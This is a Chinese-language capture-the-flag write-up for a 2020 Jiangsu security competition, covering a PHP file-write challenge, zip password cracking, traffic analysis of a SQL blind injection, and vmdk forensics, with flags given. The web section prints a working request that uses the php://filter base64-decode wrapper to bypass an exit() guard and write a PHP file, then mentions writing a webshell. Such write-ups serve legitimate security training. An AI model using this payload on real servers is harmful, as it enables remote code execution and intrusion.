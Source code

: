 # Web

## 签到

略

---

## php审计

```php
<?php
$content = '<?php exit(0);?>';
$content .= @$_POST['code'];
$filename = @$_POST['filename'];
if (isset($filename)){
	file_put_contents($filename, $content);
}else{
	echo "今天天气不错";
}
?>
```

通过 base64 绕过 `<?php exit(0);?>`

```
code=PD9waHAgcGhwaW5mbygpID8+&filename=php://filter/write=convert.base64-decode/resource=1.php
```

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/18.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/19.png)

接下来直接写shell即可

---

# Misc

## 压缩包

打开zip文件 查看注释，发现密码为6位数字

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/1.png)

使用软件爆破，密码是 732654

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/2.png)

解压出来一个 111.zip 和一个 trips.txt

用winrar修复即可打开111.zip

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/3.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/4.png)

查看 sh 内容发现 压缩包密码是时间戳

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/5.png)

查看压缩包时间

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/6.png)

构造时间戳字典

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/7.png)

爆破

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/8.png)

查看flag

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/9.png)

key:F8CA0E5735CB2E6F

---

## 流量分析

直接解压得到流量包

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/10.png)

过滤仅http

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/11.png)

过滤http流量  ，然后   文件 》导出分组解析结果 》为CSV      保存为 123.txt

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/12.png)

用 notepad++  打开 123.txt，可以看到语句语句中还是夹杂着很多的 urlcode

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/13.png)

Ctrl+A 全选  , 然后   插件 》MIME Tools  》 url decode ，这样就把 URLcode 转为更直观的 ascii 了

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/14.png)

这个其实就是用二分法 进行 sql 盲注

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/15.png)

前面代表是测试第几个 字符 后面代表 与当前测试的字符的 ascii 值 相比较的值

手动分析得出flag

```
1=107   k
2=101   e
3=121   y
4=58    :
5=97    a
6=52    4
7=54    6
8=100   d
9=99    c
10=55   7
11=56   8
12=100  d
13=48   0
14=55   7
15=57   9
16=56   8
17=99   c
18=56   8
19=51   3
  =52   4
20=52   4
```

key:a46dc78d0798c844

---

## vmdk取证

直接用 R-Studio 打开vmdk文件，其中一个 txt 的内容 base64解一下就是flag

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/16.png)

![](../../../../assets/img/Security/CTF/writeup/2020-10-全国网络与信息安全管理职业技能大赛江苏场-writeup/17.png)
